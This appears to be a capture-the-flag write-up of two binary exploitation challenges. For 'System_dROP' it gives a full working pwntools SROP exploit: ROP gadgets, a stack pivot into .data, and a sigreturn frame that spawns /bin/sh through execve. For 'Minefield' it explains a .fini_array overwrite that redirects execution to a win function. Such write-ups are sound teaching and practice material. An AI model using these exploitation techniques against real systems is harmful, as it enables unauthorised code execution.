








System_dROP
Running this through Ghidra we see a very straight-forward buffer overflow. We have a buffer of 32 bytes, and the program reads in 256 bytes. Additionally, the title of the challenge hints at using the SROP technique to exploit this overflow.

Using vmmap in GDB we obtain more information. The stack is non-executable and we can write to the addresses of 0x00601000 - 0x00602000. These addresses correspond to the .bss and .data sections of the binary.

Let’s begin by drawing out the strategy we will take. The SROP technique requires the ability to write a signal return frame to some area in memory, which we then call on to set the “context” of the program such as all the registers and flags. It is a very powerful technique since it will allow us the ability to call any function. The signal return frame is called by the sigret system call, so we need to place it before the frame. The issue here is that we can only read in 256 bytes, but the syscall address is 8 bytes and the frame is 248. Therefore this attack will require several reads. Since we can’t execute shell code anywhere in memory we should use the sig return frame to call execve. This means we need to have the string /bin/sh saved somewhere and we need to set the RAX register to 0x3B. A quick search with ropper in gdb revealed that we do not have gadgets to set RAX. However we do have gadgets for RDI and RSI so we can at least modify the first two arguments of the functions available to us. This also means we can’t change the amount of data that the read function will take, so we are limited to 256 bytes. Since we can write to .data, we should store our materials there. First we will read in /bin/sh, followed by the syscall gadget, and finally the sigret frame. By storing part of our ROP chain on the .data section, we will have to modify the stack pointer to point to there instead as well. So lets begin writing our exploit by first listing out the addresses we will need:
1
2
3
4
5
6
7
8
9
junk = b'0x41' * 8
offset = b'A' * 32
data_addr = 0x00601028
syscall = p64(0x0040053b) # syscall; ret;
pop_rsp = p64(0x004005cd) # pop rsp; pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x004005d3) # pop rdi; ret;
pop_rsi = p64(0x004005d1) # pop rsi; pop r15; ret;
read_addr = p64(0x00400440) # read; ret;
p64(0x0040056e) # leave; ret;
Most of these should be self-explanatory. The offset was calculated by experimentation through GDB. Just pass in some patterned input greater than 32 bytes and see what part of the pattern overwrite the return address. It is important to note that the RBP pointer is stored right before the return address. We need to overwrite this RBP pointer so that we can modify the location of the stack. Since we want the .data section to be our new stack, we should overwrite it with data_addr. Since we got a segmentation fault at an input of 40 bytes, then we know the RBP value is at 32 bytes, hence the offset being 32.
Next lets prepare our first payload:
1
2
3
4
5
6
7
8
9
10
# First read sets up second read, where we save /bin/sh to .data, and also rewrites rbp to .data
p1 = offset + p64(data_addr) + pop_rdi + p64(0x00) + pop_rsi + p64(data_addr) + p64(0x00) + read_addr
# We also need to save the syscall and sigret frame to .data section
p2 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8) + p64(0x00) + read_addr
# Need to do 1 more read to set EAX to 15 (sigret) and also pivot into our new stack
p3 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8 + 256) + p64(0x00) + read_addr + leave
payload = p1 + p2 + p3
The first part of the payload will set up the program to call read again so we can pass in /bin/sh\x00 and will save it to the start of the .data section. Remember that execve() requires a null terminated string as the first argument. The second part of the payload is almost the same as the first, except that now we save the syscall gadget as well as the sig ret frame immediately after the /bin/sh string. The last part of the payload is similar to the first in that we are again doing another read. However, this time what we read doesn’t matter. We need to set the RAX register to the sigret system call 0xf or 15 in decimal. Since we have no gadgets available for this, we must utilize the return value of the read() function. According to the linux man page:
On success, the number of bytes read is returned (zero indicates end of file), and the file position is advanced by this number. It is not an error if this number is smaller than the number of bytes requested; this may happen for example because fewer bytes are actually available right now (maybe because we were close to end-of-file, or because we are reading from a pipe, or from a terminal), or because read() was interrupted by a signal. See also NOTES. On error, -1 is returned, and errno is set to indicate the error. In this case, it is left unspecified whether the file position (if any) changes.On success, the number of bytes read is returned (zero indicates end of file), and the file position is advanced by this number. It is not an error if this number is smaller than the number of bytes requested; this may happen for example because fewer bytes are actually available right now (maybe because we were close to end-of-file, or because we are reading from a pipe, or from a terminal), or because read() was interrupted by a signal. See also NOTES. On error, -1 is returned, and errno is set to indicate the error. In this case, it is left unspecified whether the file position (if any) changes.
Basically, if we send the program 15 bytes, then we set the RAX register with our desired value and thus we are able to call the sigret. And that’s what the third part of the payload allows us to do. It also calls leave; which essentially resets the stack pointer to the value of RBP, which we have overwritten with .data section address. So we have also set up our stack redirection. Now lets set up our sig ret frame:
1
2
3
4
5
6
7
8
frame = SigreturnFrame()
frame.rsp = data_addr + 8 + 256
frame.rbp = data_addr
frame.rip = 0x0040053b
frame.rax = 0x3b
frame.rdi = data_addr
frame.rsi = 0x00
frame.rdx = 0x00
Now lets go over what each of these values will accomplish. We will change the RSP to point to the address after our frame, since that makes the most natural sense and mimics what a real program would. This address does not matter too much, as long as you can read and write to it. We set the RBP to point to the .data address, since that’s what it was before the system call. This address doesn’t matter too much either. The RIP register will point at the syscall; ret; gadget, so once the frame gets called we are call upon execve with all its arguments already set. RAX is set to the syscall value of execve. RDI is the address of .data because remember that is where our null terminated /bin/sh was written to. And since we only need to set the first arg, then we can leave the others as null. Now all that remains is to send our payloads. The full exploit can be viewed below. An important thing to note is that the binary will continue to read until it has read 256 bytes, unless we put in a timer. In order to save time I only used a timer for the last read and just filled up the buffer with junk in the others.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
#!/usr/bin/env python
from pwn import *
# Set up pwntools for the correct architecture
exe = context.binary = ELF('./system_drop')
context.clear(arch='amd64')
junk = b'0x41' * 8
offset = b'A' * 32
data_addr = 0x00601028
syscall = p64(0x0040053b) # syscall; ret;
pop_rsp = p64(0x004005cd) # pop rsp; pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x004005d3) # pop rdi; ret;
pop_rsi = p64(0x004005d1) # pop rsi; pop r15; ret;
read_addr = p64(0x00400440) # read; ret;
p64(0x0040056e) # leave; ret;
# First read sets up second read, where we save /bin/sh to .data, and also rewrites rbp to .data
p1 = offset + p64(data_addr) + pop_rdi + p64(0x00) + pop_rsi + p64(data_addr) + p64(0x00) + read_addr
# We also need to save the syscall and sigret frame to .data section
p2 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8) + p64(0x00) + read_addr
# Need to do 1 more read to set EAX to 15 (sigret) and also pivot into our new stack
p3 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8 + 256) + p64(0x00) + read_addr + leave
frame = SigreturnFrame()
frame.rsp = data_addr + 8 + 256
frame.rbp = data_addr
frame.rip = 0x0040053b
frame.rax = 0x3b
frame.rdi = data_addr
frame.rsi = 0x00
frame.rdx = 0x00
io = exe.process()
payload = p1 + p2 + p3
io.send( payload + b'A' * (0x100 - len(payload)))
# 2nd read saves /bin/sh
io.send( "/bin/sh\x00" + "B" * (0x100 - 8))
# 3rd read saves the syscall + sigret frame
io.send(syscall + bytes(frame))
# 4th read sets RAX to 15:
io.send("E" * 15)
sleep(2)
io.interactive()
Minefield
Running the program through GDB shows that we have the ability to write to some addresses, and we also note that there is no memory randomization. There is a stack canary, so my first thought was that this was not going to be a buffer overflow.

If we run the binary we see that it asks for input, and since we do not know what input it expects, it eventually ends in a segmentation fault.

Ghidra reveals that there is a win function titled _() which calls the cat flag* command on the system running the binary.

If we follow along the functions being called, we end up at the mission() function, where were are presented with the choice where to plant a bomb and the type of bomb.

Here is it important to note that our choices are saved to buffers of length 10, so our input must reflect that. Another important action is that our input string gets converted from a character type to an unsigned long long. Lastly we notice the vulnerability in this program. On line 25 we have the code:
*puVar1 = uVar2;
puVar1 contains the string converted to an unsigned long long that we inputted when we were asked to insert the type of mine. uVar2 contains the string converted to an unsigned long long that we inputted when we were asked the location. That line of code is overwriting the value found at the type of mine, with the location we inputted. The next line after this simply checks the stack canary, and then exits the function. If we search through the addresses that we can write to, we find the .fini_array entry.

This pointer contains the address of the functions that will begin the process of exiting out of the program. Therefore, we can overwrite this entry so that instead of exiting, the program instead enters the win function. Since this is such a simple exploitation there is no need to write an exploit. It is faster to simply type in the values mentioned above.
